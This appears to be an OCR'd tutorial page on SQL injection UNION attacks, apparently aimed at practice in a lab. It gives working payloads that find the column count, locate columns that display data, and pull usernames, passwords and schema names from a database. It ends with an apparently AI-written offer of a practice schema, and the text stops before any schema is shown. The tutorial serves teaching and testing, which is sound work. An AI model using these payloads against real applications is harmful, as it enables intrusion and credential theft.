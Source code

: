 ### Method B: Use `UNION SELECT NULL`

Try:
```text
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
...
```

🧠 Why `NULL`?
- `NULL` works with any data type.
- When the number of `NULL`s matches the actual number of columns → the query runs without error ✅



## 🕵️ Step 2: Find Which Columns Can Display Data

Now that you know how many columns there are, test which ones can actually show data.

Example:
```text
' UNION SELECT 'test',NULL,NULL--  
' UNION SELECT NULL,'test',NULL--  
' UNION SELECT NULL,NULL,'test'--
```

👀 Look for where `'test'` appears on the page — that tells you which column you can use to extract data.



## 📦 Step 3: Extract Useful Data

Once you’ve found the right number of columns and which ones display data, now you can start extracting real info from other tables.

Examples:
```sql
' UNION SELECT username, password FROM users--
' UNION SELECT table_name, null FROM information_schema.tables--
```

📌 Tip: You can often get:
- Table names
- Column names
- Usernames & passwords
- Sensitive internal data

## 🧪 SQL Script: Create Tables + Insert Sample Data
Based on your **educational scenario**, I’ve created a matching **SQL database schema** that you can use to simulate and practice **SQL injection UNION attacks**.

This DB includes:
- A `products` table (simulates vulnerable query output)
- A `users` table (contains usernames & passwords)
- A `secrets` table (sensitive internal data)
